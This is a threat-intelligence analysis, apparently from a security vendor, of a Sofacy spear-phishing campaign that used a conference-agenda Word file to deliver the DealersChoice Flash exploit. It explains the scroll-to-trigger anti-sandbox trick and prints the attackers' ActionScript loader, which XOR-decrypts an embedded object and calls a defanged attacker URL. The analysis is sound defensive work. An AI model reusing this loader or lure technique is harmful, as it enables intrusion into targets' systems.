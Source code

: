  
The Attack
The attack involving this updated variant of DealersChoice was targeting a European government organization. The attack relied on a spear-phishing email with a subject of "Defence & Security 2018 Conference Agenda" that had an attachment with a filename of "Defence & Security 2018 Conference Agenda.docx". The attached document contains a conference agenda that the Sofacy group appears to have copied directly from the website for the "Underwater Defence & Security 2018 Conference" here.
Opening the attached "Defence & Security 2018 Conference Agenda.docx" file does not immediately run malicious code to exploit the system. Instead, the user must scroll to the third page of the document, which will load a Flash object that contains ActionScript that will attempt to exploit the user’s system to install a malicious payload. The Flash object embedded within this delivery document is a variant of an exploit tool that we call DealersChoice. This suggests that the Sofacy group is confident that the targeted individuals would be interested enough in the content to peruse through it.
We analyzed the document to determine the reason that the malicious Flash object only ran when the user scrolled to the third page. According to the document.xml file, the DealersChoice loader SWF exists after the "covert-shores-small.png" image file within the delivery document. This image file exists on the third page of the document, so the user would have to scroll down in the document to this third page to get the SWF file to run. The user may not notice the Flash object on the page, as Word displays it as a tiny black box in the document, as seen in Figure 1. This is an interesting anti-sandbox technique, as it requires human interaction prior to the document exhibiting any malicious activity.
 

Figure 1 Flash object appearing as a small black box in delivery document
 
Updated DealersChoice
This DealersChoice Flash object shares a similar process to previous variants; however, it appears that the Sofacy actors have made slight changes to its internal code. Also, it appears that the actors used ActionScript from an open source video player called “f4player”, which is freely available on GitHub with the following description:
f4Player is an open source flash (AS3) video player and library project. It is so small that it is only 10kb (with skin file) and totally free under GPL license.
 
The Sofacy developer modified the f4player’s ActionScript to include additional code to load an embedded Flash object. The additions include code to decrypt an embedded Flash object and an event handler that calls a newly added function (“skinEvent2”) that plays the decrypted object, as seen in the code snippet below:





var skinEvent2:Function = function(param1:Event):void
 {
    skin2 = param1.currentTarget.content;
    stage.addChild(skin2);
    skin2.play("hxxp://ndpmedia24[.]com/0pq6m4f.m3u8");
 };
 var mov:Loader = new Loader();
 mov.contentLoaderInfo.addEventListener(Event.COMPLETE,skinEvent2);
 var b:ByteArray = new this.Mov();
 var k:uint = 82;
 var i:uint = 4;
 while(i < b.length)
 {
    b[i] = b[i] ^ k;
    i++;
 }
 mov.loadBytes(b);
